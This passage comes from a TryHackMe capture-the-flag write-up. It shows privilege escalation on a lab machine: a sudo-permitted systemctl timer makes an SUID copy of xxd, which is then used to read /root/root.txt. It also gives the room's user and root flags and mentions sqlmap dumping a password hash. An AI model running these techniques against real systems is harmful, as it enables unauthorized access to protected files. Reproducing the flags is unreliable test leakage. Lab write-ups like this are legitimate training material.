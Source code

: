 2. Once on the machine we can get the content of the user flag: THM{9f2ce3df1beeecaf695b3a8560c682704c31b17a}

### Privilege escalation
1. Run a simple `sudo -l` will return:
```sh
User comte may run the following commands on cheesectf:
    (ALL) NOPASSWD: /bin/systemctl daemon-reload
    (ALL) NOPASSWD: /bin/systemctl restart exploit.timer
    (ALL) NOPASSWD: /bin/systemctl start exploit.timer
    (ALL) NOPASSWD: /bin/systemctl enable exploit.timer
```
2. The same `exploit.timer` service was flagged `linpeas.sh` when we run it
3. Checking the `exploit.service` will reveal:
```sh
comte@cheesectf:/etc/systemd/system$ cat exploit.service 
[Unit]
Description=Exploit Service

[Service]
Type=oneshot
ExecStart=/bin/bash -c "/bin/cp /usr/bin/xxd /opt/xxd && /bin/chmod +sx /opt/xxd"
```
4. Basically is copying the `xxd` to `/opt` location and set the `SUID`
5. The `xxd` can be exploited as per https://gtfobins.github.io/gtfobins/xxd/
6. First we have to start the service `sudo /bin/systemctl start exploit.timer` but will return an error: "*Failed to start exploit.timer: Unit exploit.timer has a bad unit file setting. See system logs and 'systemctl status exploit.timer' for details.*"
7. The problem is related to `exploit.timer` config where the `OnBootSec=` value is missing
8. Update the value to `OnBootSec=0` by editing the file with `nano` and start the service again
9. Check the content of `/opt` folder where an instance of `xxd` with SUID bit set should be available:
```sh
comte@cheesectf:/opt$ ls -la
total 28
drwxr-xr-x  2 root root  4096 Oct  3 13:51 .
drwxr-xr-x 19 root root  4096 Sep 27  2023 ..
-rwsr-sr-x  1 root root 18712 Oct  3 13:51 xxd
```
#### Data exfiltration
1. Now let's follow the GTFOBins (link above) instructions and try to read the content of root.txt file. For this, first we need to set the file path as value for a variable, then try to read it like:
```sh
LFILE=/root/root.txt
./xxd "$LFILE" | xxd -r
```
2. The root flag is: THM{dca75486094810807faf4b7b0a929b11e5e0167c}

## Addendum
1. The application is protected by a type of WAF, as per what `nuclei found` is `[waf-detect:apachegeneric] [http] [info] http://10.10.215.157` so any normal scann with `nmap` or `naabu` will not help
2. I was lucky enough to to find the SQLi payload, but a different approach will be to run the `sqlmap` on the login form and you'll find the same result
3. Continuing with `sqlmap` you can exfiltrate the content of `users` table, but this is a rabbit hole, you can't un-hash the MD5 password with regular dictionaries (including rockyou.txt)
```sh
+----+----------------------------------+----------+
| id | password                         | username |
+----+----------------------------------+----------+
| 1  | 5b0c2e1b4fe1410e47f26feff7f4fc4c | comte    |
+----+----------------------------------+----------+
```